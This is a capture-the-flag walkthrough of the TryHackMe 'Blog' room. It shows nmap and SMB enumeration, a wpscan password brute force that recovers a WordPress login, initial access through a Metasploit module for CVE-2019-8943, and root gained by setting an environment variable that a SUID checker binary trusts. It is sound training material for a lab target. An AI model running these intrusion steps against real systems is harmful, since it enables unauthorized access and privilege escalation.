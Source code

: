 # 35 - Anonymous (ltrace / strace) to enumerate SUID binaries

Room Link --> [https://tryhackme.com/room/blog](https://tryhackme.com/room/blog)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -Pn -n -T5 -p- -sS -vv 10.10.37.166

PORT    STATE SERVICE     REASON  VERSION
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```
{% endcode %}

_In order to get the blog to work with AWS, you'll need to add "blog.thm" to your /etc/hosts file._

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking the Page source code we get 2 usernames : Billy and his Mom.

```
bjoel
kwheel
```

#### SMB enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbmap -H blog.thm -u 'anonymous' -p 'anonymous'

print$       NO ACCESS	  Printer Drivers
BillySMB     READ, WRITE  Billy's local SMB Share
IPC$         NO ACCESS	  IPC Service (blog server (Samba, Ubuntu))

# we have RW access to the "BillySMB" share.
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The images from the SMB file share were deadends, so since we have 2 usernames we can use wpscan to bruteforce for their login passwords.

#### wpscan

{% code overflow="wrap" lineNumbers="true" %}
```bash
wpscan --url http://blog.thm/wp-login.php --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt
```
{% endcode %}

the WPScan was able to extract the credentials for the user kwheel. It was cutiepie1.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-fSRqKS33MB0/YKpXlw6DvqI/AAAAAAAAwBQ/8QSDhRQU65UJ8Eacc_bn5fMs_ovxxMg7gCLcBGAsYHQ/s16000/8.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

`kwheel : cutiepie1` .

Login to  wordpress. `version 5.0` .

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*rf2EDb3asLwEe5Fp4OqnmQ.png" alt="" height="82" width="700"><figcaption></figcaption></figure>

There is an [exploit](https://www.exploit-db.com/exploits/49512) for uploading images for WordPress Core 5.0 (CVE-2019–8943). we also have a Metasploit Module for this.

`use exploit/multi/http/wp_crop_rce`&#x20;

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

`find / -perm -u=s -type f 2>/dev/null` .

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-9PLookrmx8E/YKpX7cj9jFI/AAAAAAAAwBw/c3_Wk84j9EgjlSvl15M80WrmYu0nLkkzwCLcBGAsYHQ/s16000/12.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Running `strings /usr/sbin/checker` - and we see it is executing `/bin/bash`.&#x20;

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Running the file informs us that we are not admin users.

> /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:217/1*W8OiYcQCx1PqN2r6GHsdqg.png" alt="" height="71" width="316"><figcaption></figcaption></figure>

We can investigate the binary more by using either **strace** or **ltrace** as both is installed on the host.

> ltrace /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:349/1*JYG2x8FV2Vv_iMG56RvN0Q.png" alt="" height="82" width="508"><figcaption></figcaption></figure>

Based on the ltrace output it appears that the only check the application does is to check an environment variable called admin for a value, lets test this theory by adding a value to the admin environmental variable

> export admin=1

Now lets launch the ltrace process to check if we are successful.

> ltrace /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:343/1*71tMuxVEaDu6aVyde052Cw.png" alt="" height="64" width="499"><figcaption></figcaption></figure>

We can now see that the “admin” environment variable has a value of 1.

> /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:312/1*pSzfFiJddbjxEsF6zANgaA.png" alt="" height="103" width="454"><figcaption></figcaption></figure>

Done!

